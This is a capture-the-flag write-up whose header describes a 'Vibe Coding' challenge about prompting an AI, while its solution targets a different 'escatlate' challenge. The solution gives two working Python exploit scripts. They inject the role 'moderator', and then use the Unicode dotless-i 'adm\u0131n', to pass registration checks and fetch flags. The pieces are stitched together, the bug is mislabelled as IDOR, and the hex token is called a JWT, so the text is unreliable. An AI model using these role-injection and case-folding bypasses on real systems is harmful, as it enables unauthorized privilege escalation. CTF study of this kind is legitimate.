## Challenge

**Title**
WEB/MISC // 👴🏻 Vibe Coding

**Description**
Turns out this is the way to go. AI codin' when you vibin'. Can you ask Zenek to call getFlag() function for you?
🔗 https://vibe-coding-4659ccfb9951.1753ctf.com

## Solution (Flag 1)

I exploited a simple IDOR vulnerability during user registration, which allowed me to inject a role into the request.

The code responsible for the vulnerability that allows role injection:
```javascript
app.post('/api/register', (req, res) => {

    const existingUser = users.find(u => u.username == req.body.username);
    if(existingUser)
        return res.status(400).send('User already exists');

    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');

    const user = {
        username: req.body.username.substring(0, 20),
        password: req.body.password.substring(0, 20),
        token: crypto.randomBytes(32).toString('hex'),
        role: req.body.role.substring(0, 20) || 'user'
    }

    users.push(user);

    res.json(user);
})
```

The code that allows us to obtain the flag:
``` javascript
app.get('/api/message', (req, res) => {
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
    
    if(req.user.role.toUpperCase() === 'MODERATOR')
        return res.json({ message: `Hi Mod! Your flag is ${process.env.MODERATOR_FLAG}` });

    res.json({ message: `Hello ${req.user.username}` });
})
```

Authentication works as a middleware by passing x-token http header:

```javascript
app.use((req, res, next) => {
    const token = req.headers["x-token"];
    const user = users.find(u => u.token == token);

    if(!user)
        return res.status(401).send('Unauthorized');

    req.user = user;
    next();
})
```

I used the following Python script to automate the exploitation process:

- Register a new user with a known password (password123) and role moderator.
- If registration succeeds, extract the JWT token from the response.
- Use the token to access a protected endpoint and retrieve the flag.

```python
import requests
import random
import string

def generate_username(prefix="user", length=6):
    suffix = ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))
    return f"{prefix}_{suffix}"
    
username = generate_username()
password = "password123"

print(f"User {username}:{password}")

# Register contants
url_register = "https://escatlate-52bc47e034fa.1753ctf.com/api/register"
register_payload = {
    "username": username,
    "password": password,
    "role": "moderator"
}

headers_register = {
    "Content-Type": "application/json",
}

# Send register request
response = requests.post(url_register, json=register_payload, headers=headers_register)
response_data = response.json()

# Get token from response
token = response_data.get("token")
print(f"Token: {token}")

# If getting token is succed get a flag
if token:
    url_message = "https://escatlate-52bc47e034fa.1753ctf.com/api/message"
    headers_message = {
        "X-Token": token
    }

    response_msg = requests.get(url_message, headers=headers_message)
    print("Response from: /api/message:")
    print(response_msg.text)
else:
    print("[Error] No token provided.")

```

## Solution (Flag 2)

To get the second flag, we need to log in as an admin, but this is complicated by the following code during registration:

```javascript
    if(req.body.role?.toLowerCase() == 'admin')
        return res.status(400).send('Invalid role');
```

Another important piece of code is the one responsible for role verification when attempting to retrieve the message:

```javascript
    if(req.user.role.toUpperCase() === 'ADMIN')
        return res.json({ message: `Hi Admin! Your flag is ${process.env.ADMIN_FLAG}` });
```

I used the dotless 'ı' character to bypass these validations (https://www.ascii-code.com/character/%C4%B1). The role name I sent was "adm\u0131n". This allowed me to bypass the comparison with "admin" after applying the toLowerCase function. However, at the same time, the second validation, which used the toUpperCase function, converted the character to a regular 'I', and the comparison with "ADMIN" succeeded.

Here’s the exploit:

```python
import requests
import random
import string

def generate_username(prefix="user", length=6):
    suffix = ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))
    return f"{prefix}_{suffix}"
    
username = generate_username()
password = "password123"

print(f"User {username}:{password}")

# Register contants
url_register = "https://escatlate-52bc47e034fa.1753ctf.com/api/register"
register_payload = {
    "username": username,
    "password": password,
    "role": "adm\u0131n"
}

headers_register = {
    "Content-Type": "application/json",
}

# Send register request
response = requests.post(url_register, json=register_payload, headers=headers_register)
response_data = response.json()

# Get token from response
token = response_data.get("token")
print(f"Token: {token}")

# If getting token is succed get a flag
if token:
    url_message = "https://escatlate-52bc47e034fa.1753ctf.com/api/message"
    headers_message = {
        "X-Token": token
    }

    response_msg = requests.get(url_message, headers=headers_message)
    print("Response from: /api/message:")
    print(response_msg.text)
else:
    print("[Error] No token provided.")

```